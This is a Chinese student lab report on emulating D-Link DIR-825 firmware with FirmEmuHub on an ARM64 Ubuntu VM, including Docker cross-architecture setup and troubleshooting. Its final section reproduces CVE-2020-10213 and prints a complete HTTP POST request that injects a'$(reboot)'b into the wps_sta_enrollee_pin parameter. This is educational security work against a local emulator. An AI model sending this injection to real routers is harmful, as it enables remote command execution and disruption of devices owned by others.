




# 实验三：系统态固件仿真实验报告

## 一、实验目的

- 掌握系统态固件仿真的基本原理、实验流程和常见调试方法。
- 使用开源工具 FirmEmuHub 完成指定基准固件 `BM-2024-00003` 的仿真启动。
- 通过浏览器访问仿真固件的 Web 管理界面，验证固件服务是否正常运行。
- 复现固件中的 CVE-2020-10213 命令注入漏洞，理解 CGI 参数过滤不当导致远程命令执行的原因。

## 二、实验环境

| 项目 | 配置 |
|------|------|
| 计算机型号 | Apple MacBook Air |
| 处理器型号 | Apple M4 |
| 虚拟化平台 | Parallels Desktop |
| 实验系统 | Ubuntu 24.04 |
| 系统架构 | ARM64 / aarch64 |
| 分配内存 | 6 GB |
| 固件仿真工具 | FirmEmuHub |
| 实验基准 | `./Benchmark/BM-2024-00003` |
| Docker | 28.2.2 |
| Git | 2.43.0 |
| Python | 3.12.3 |
| 漏洞验证工具 | Burp Suite Community Edition、curl |

实验手册建议使用 Ubuntu 作为主机系统，因为 Kali 环境中可能出现固件仿真失败。本实验在 Apple 芯片 Mac 上通过 Parallels 运行 ARM64 Ubuntu，因此还需要处理 amd64 Docker 镜像在 ARM64 主机上的跨架构运行问题。

## 三、实验原理与基础知识

### （一）系统态固件仿真原理

系统态固件仿真是指尽可能完整地启动固件运行环境，使固件中的 Web 服务、网络服务和后台进程在仿真环境中运行。与单独分析某个二进制程序相比，系统态仿真更接近真实设备运行状态，适合进行 Web 接口测试、漏洞复现和动态行为观察。

本实验使用 FirmEmuHub 对固件进行系统态仿真。FirmEmuHub 会根据基准目录中的配置文件构建 Docker 镜像，启动容器，并在容器中运行固件仿真脚本，从而暴露固件的 Web 管理服务。

### （二）FirmEmuHub 仿真流程

执行以下命令后，FirmEmuHub 会自动完成固件仿真启动流程：

```bash
sudo python3 emulation.py -b ./Benchmark/BM-2024-00003
```

其主要流程包括：

- 读取 `./Benchmark/BM-2024-00003/benchmark.yml`，获取固件信息、远程地址和服务端口配置。
- 使用 `./Benchmark/BM-2024-00003/emulation` 目录作为 Docker 构建上下文。
- 构建固件仿真镜像，并生成随机容器名称，避免容器命名冲突。
- 以特权模式启动 Docker 容器，设置 `REMOTE_IP=192.168.0.1`、`REMOTE_PORT=80` 等环境变量。
- 通过 `docker inspect` 获取容器端口映射，并轮询访问 `http://0.0.0.0:<映射端口>` 判断服务是否启动成功。
- 容器内部执行 `run.sh`，启动 SSH、设置端口转发，并运行固件仿真脚本。

### （三）跨架构运行说明

本实验环境为 ARM64，而 `BM-2024-00003` 基准使用的 Docker 基础镜像为 `linux/amd64`。如果不进行跨架构配置，构建或运行容器时可能出现 `exec format error`。因此需要安装 `qemu-user-static` 和 `binfmt-support`，并注册 QEMU binfmt，使 ARM64 主机能够运行 amd64 容器。

```bash
sudo apt install -y qemu-user-static binfmt-support
sudo docker run --rm --privileged tonistiigi/binfmt --install all
export DOCKER_DEFAULT_PLATFORM=linux/amd64
```

由于后续启动仿真时使用 `sudo`，还需要通过 `sudo -E` 保留 `DOCKER_DEFAULT_PLATFORM` 环境变量：

```bash
sudo -E python3 emulation.py -b ./Benchmark/BM-2024-00003
```

### （四）CVE-2020-10213 漏洞原理

CVE-2020-10213 是 D-Link DIR-825 路由器固件中的命令注入漏洞。该漏洞存在于 `/sbin/httpd` 的 CGI 处理逻辑中，程序在处理 `wps_sta_enrollee_pin` 参数时没有正确过滤用户输入，导致攻击者可以构造特殊参数打破原有命令结构并执行系统命令。

实验中使用的 Payload 为：

```text
wps_sta_enrollee_pin=a%27%24%28reboot%29%27b
```

该参数 URL 解码后为：

```text
a'$(reboot)'b
```

其中，单引号用于闭合原命令中的字符串，`$(reboot)` 是 shell 命令替换语法。如果漏洞触发成功，固件系统会执行 `reboot`，表现为 Web 服务中断、连接被重置或 `curl` 返回 `Empty reply from server`。

## 四、实验内容

### （一）系统态固件仿真环境搭建

#### 1. 克隆 FirmEmuHub 仓库

在 Ubuntu 虚拟机中克隆 FirmEmuHub 项目，并进入项目目录：

```bash
git clone https://github.com/a101e-lab/FirmEmuHub.git
cd FirmEmuHub
```


截图显示 FirmEmuHub 仓库已开始下载。由于仓库中包含多个基准固件和仿真文件，克隆过程耗时较长，需要等待仓库完整拉取后再进行后续依赖安装。

#### 2. 创建 Python 虚拟环境并安装依赖

为避免依赖污染系统 Python 环境，在项目目录中创建并激活虚拟环境，然后安装 `requirements.txt` 中列出的依赖：

```bash
sudo apt update
sudo apt install python3-venv -y
cd ~/FirmEmuHub
python3 -m venv venv
source venv/bin/activate
python -m pip install --upgrade pip
python -m pip install -r requirements.txt
```


截图显示 Python 依赖安装过程已经执行。实验中曾遇到在用户主目录 `~` 下执行 `source venv/bin/activate` 报错的问题，原因是虚拟环境实际位于 `~/FirmEmuHub/venv`，需要先进入项目目录再激活虚拟环境。

#### 3. 验证 Docker 可用性

FirmEmuHub 依赖 Docker 构建并运行固件仿真环境，因此需要确认 Docker 能正常运行：

```bash
docker run --rm hello-world
```


截图显示 Docker 能够成功运行测试容器，说明 Docker 服务可用。实验中如果直接运行 Docker 出现 `permission denied ... docker.sock`，说明当前用户尚未获得 Docker 组权限，可以使用 `newgrp docker`、重新登录，或临时使用 `sudo docker` 执行命令。

#### 4. 配置跨架构支持

由于实验主机为 ARM64，而基准镜像为 amd64，需要注册 QEMU binfmt：

```bash
sudo apt install -y qemu-user-static binfmt-support
sudo docker run --rm --privileged tonistiigi/binfmt --install all
export DOCKER_DEFAULT_PLATFORM=linux/amd64
```

该步骤用于避免容器构建或运行时出现 `exec /bin/sh: exec format error`。注册完成后，Docker 可以借助 QEMU 用户态模拟运行 amd64 镜像。

### （二）固件仿真启动

#### 1. 执行一键仿真命令

在 `FirmEmuHub` 目录中激活虚拟环境，设置平台变量，然后启动 `BM-2024-00003` 固件仿真：

```bash
cd ~/FirmEmuHub
source venv/bin/activate
export DOCKER_DEFAULT_PLATFORM=linux/amd64
sudo -E python3 emulation.py -b ./Benchmark/BM-2024-00003
```

这里使用 `sudo -E` 的原因是保留当前终端中的 `DOCKER_DEFAULT_PLATFORM=linux/amd64` 环境变量，确保 Docker 按 amd64 平台构建和运行镜像。

#### 2. 第一次运行失败现象


截图显示容器镜像可以构建并启动，但 `emulation.py` 在轮询 20 次后提示 `Service failed to start`，并显示固件仿真在 `0.0.0.0:32768` 启动失败。结合 `docker ps -a` 观察，容器仍处于 `Up` 状态且端口已映射，说明该问题更可能是健康检查超时或 Web 服务未正常响应，而不是容器立即退出。

#### 3. 使用 curl 检查服务响应

对映射端口执行 HTTP 访问测试：

```bash
curl -v http://127.0.0.1:32768/
```


截图显示 `curl` 返回 `Empty reply from server`。该现象说明 TCP 连接能够建立，但服务端没有返回合法 HTTP 响应，进一步印证第一次运行时容器虽已启动，但固件 Web 服务尚未正常提供页面。

#### 4. 清理旧容器与镜像后重新运行

删除第一次运行产生的旧容器和镜像标签，再重新执行仿真命令：

```bash
sudo docker rm -f bm-2024-00003_j78hr5
sudo docker rmi bm-2024-00003
cd ~/FirmEmuHub
source venv/bin/activate
export DOCKER_DEFAULT_PLATFORM=linux/amd64
sudo -E python3 emulation.py -b ./Benchmark/BM-2024-00003
```



截图显示第二次运行时新容器 `bm-2024-00003_ulzu96` 启动成功，健康检查在第 5 次尝试时通过，并提示 `Service started successfully`。本次主机映射端口为 `32769`，说明固件 Web 服务已经能够被访问。需要注意，Docker 使用 `-P` 自动映射端口时，每次运行得到的端口可能不同，应以终端实际输出为准。

#### 5. 访问固件 Web 管理界面

先查看 Ubuntu 虚拟机 IP 地址：

```bash
hostname -I
```

本实验中 Ubuntu 虚拟机地址为 `10.211.55.29`，结合仿真输出的映射端口，在浏览器中访问：

```text
http://10.211.55.29:32769
```



截图显示浏览器成功访问到固件 Web 管理页面，说明 FirmEmuHub 已经完成系统态固件仿真，固件中的 Web 服务被成功暴露到宿主访问地址。

### （三）漏洞复现：CVE-2020-10213

#### 1. 准备 Burp Repeater 请求

在固件 Web 可访问的前提下，打开 Burp Suite Community Edition，进入 Repeater 模块，构造如下 POST 请求：

```http
POST /set_sta_enrollee_pin.cgi HTTP/1.1
Host: 10.211.55.29:32769
Content-Type: application/x-www-form-urlencoded
Content-Length: 111
Connection: close

wps_sta_enrollee_pin=a%27%24%28reboot%29%27b&html_response_page=do_wps.asp&html_response_return_page=do_wps.asp
```

该请求访问的 CGI 路径为 `/set_sta_enrollee_pin.cgi`，注入参数为 `wps_sta_enrollee_pin`。其中 `html_response_page=do_wps.asp` 和 `html_response_return_page=do_wps.asp` 是正常表单参数，用于保持请求格式与固件接口预期一致。

#### 2. 发送漏洞利用请求



截图显示 Burp Repeater 中已经构造并发送包含命令注入载荷的 POST 请求。若 `reboot` 命令成功执行，仿真固件内部系统会重启，响应区可能出现空响应、连接中断或长时间无法获得完整 HTTP 响应，这与真实设备重启时的现象一致。

#### 3. 使用 curl 验证利用结果

发送漏洞利用请求后，在 Ubuntu 虚拟机中使用 `curl` 检查 Web 服务响应：

```bash
curl -I http://10.211.55.29:32769
```



截图显示 `curl` 返回 `curl: (52) Empty reply from server`。该结果表示客户端能够连接到目标地址，但服务端没有返回有效 HTTP 报文。结合 Burp 发送的 `reboot` 注入载荷，可以判断固件服务受到影响，漏洞复现结果符合实验手册对 CVE-2020-10213 的预期描述。

## 五、实验问题分析

### （一）Docker 权限问题

实验中 Docker 命令可能因当前用户没有访问 `/var/run/docker.sock` 的权限而失败。该问题可以通过将用户加入 `docker` 组后重新登录、执行 `newgrp docker`，或在实验命令前临时使用 `sudo` 解决。

### （二）ARM64 与 amd64 架构不一致

由于 Apple M4 对应的 Ubuntu 虚拟机为 ARM64，而实验基准 Docker 镜像为 amd64，如果未注册 QEMU binfmt，就会出现 `exec format error`。通过安装 `qemu-user-static`、`binfmt-support` 并执行 `tonistiigi/binfmt --install all` 后，可以让 Docker 借助 QEMU 运行 amd64 容器。

### （三）健康检查超时问题

第一次执行 `emulation.py` 时出现 `Service failed to start`，但容器仍处于运行状态，说明失败不一定代表 Docker 容器完全启动失败，也可能是固件 Web 服务响应较慢或健康检查接口未返回预期内容。通过 `docker ps -a`、端口映射信息和 `curl` 返回结果综合判断后，清理旧容器与镜像并重新运行，最终健康检查通过。

### （四）自动映射端口变化

FirmEmuHub 启动容器时使用 Docker 自动端口映射，主机端口每次运行可能不同。本实验第一次映射为 `32768`，第二次成功运行时映射为 `32769`。因此访问 Web 页面和构造 Burp 请求时，必须以当前终端输出的实际 IP 与端口为准。

## 六、实验总结

本次实验在 ARM64 Ubuntu 环境中完成了 FirmEmuHub 的安装配置、跨架构 Docker 支持配置、`BM-2024-00003` 固件仿真启动以及 Web 管理界面访问，并通过 Burp Suite 和 curl 成功复现了 CVE-2020-10213 命令注入漏洞。

通过本次实验，加深了对以下内容的理解：

- **系统态固件仿真**：FirmEmuHub 通过 Docker 容器化方式运行固件仿真环境，相比用户态分析更接近真实设备运行状态，适合进行 Web 接口测试、漏洞复现和动态行为观察。
- **跨架构 Docker 运行**：在 ARM64 主机上运行 amd64 镜像需要借助 `qemu-user-static` 和 `binfmt-support` 注册 QEMU binfmt，并设置 `DOCKER_DEFAULT_PLATFORM` 环境变量，否则会出现 `exec format error`。
- **容器健康检查机制**：`emulation.py` 通过轮询方式检测固件服务是否启动成功，首次运行时可能因服务响应较慢导致健康检查超时，清理旧容器与镜像后重新运行可以有效解决。
- **CGI 命令注入漏洞**：CVE-2020-10213 的根因是 `/sbin/httpd` 在处理 `wps_sta_enrollee_pin` 参数时未正确过滤用户输入，攻击者通过构造 `$(cmd)` 语法可实现远程命令执行。`curl` 返回 `Empty reply from server` 可作为漏洞触发的侧面验证。

本次实验为后续开展固件安全分析、漏洞挖掘和 IoT 设备安全测试提供了方法基础和实践经验。

## 参考资料

1. 《系统态固件仿真实验手册》0x03，课程实验资料，2025-03-10。
2. FirmEmuHub 项目仓库：https://github.com/a101e-lab/FirmEmuHub
3. OWASP Firmware Security Testing Methodology：https://github.com/scriptingxss/owasp-fstm
4. QEMU 官方文档：https://www.qemu.org/docs/master/
5. Docker 官方文档：https://docs.docker.com/
